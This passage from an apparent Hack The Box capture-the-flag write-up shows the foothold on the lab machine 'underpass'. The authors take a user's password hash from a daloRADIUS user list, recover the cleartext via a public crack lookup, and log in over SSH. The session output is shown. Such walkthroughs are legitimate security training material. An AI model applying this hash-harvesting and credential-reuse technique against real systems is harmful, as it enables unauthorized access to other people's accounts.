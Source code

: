 ## Foothold

For the `foothold` we checked the available `users` and found a `hash` of the user `svcMosh`.

![](images/2024-12-21_20-31_80_daloradius_list_users.png)

| Username | Password                         |
| -------- | -------------------------------- |
| svcMOSH  | 412DD4759978ACFCC81DEAB01B382403 |

The `hash` was already `cracked` and so the `cleartext password` could be found on https://crackstation.net.

- [https://crackstation.net/](https://crackstation.net/)

| Username | Password          |
| -------- | ----------------- |
| svcMosh  | underwaterfriends |

After a bit of trial and error we figured out that the `username` for the `login` via `SSH` was `case sensitive`. After the successful `login` we grabbed the `user.txt` and proceeded with the `enumeration` as `svcMosh`.

```c
┌──(kali㉿kali)-[~]
└─$ ssh svcMosh@underpass.htb
The authenticity of host 'underpass.htb (10.129.106.165)' can't be established.
ED25519 key fingerprint is SHA256:zrDqCvZoLSy6MxBOPcuEyN926YtFC94ZCJ5TWRS0VaM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'underpass.htb' (ED25519) to the list of known hosts.
svcMosh@underpass.htb's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat Dec 21 07:44:57 PM UTC 2024

  System load:  0.16              Processes:             227
  Usage of /:   85.6% of 3.75GB   Users logged in:       0
  Memory usage: 10%               IPv4 address for eth0: 10.129.106.165
  Swap usage:   0%
```